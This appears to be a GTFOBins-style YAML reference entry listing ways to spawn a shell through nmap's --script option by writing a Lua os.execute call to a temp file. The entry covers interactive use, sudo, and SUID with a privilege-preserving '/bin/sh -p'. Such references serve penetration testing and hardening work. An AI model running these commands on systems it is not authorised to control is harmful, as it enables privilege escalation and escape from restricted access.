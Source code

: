 ```yaml
---
functions:
  execute-interactive:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
  sudo-enabled:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
  suid-enabled:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh -p")' > $TF
        ./nmap --script=$TF
---
```

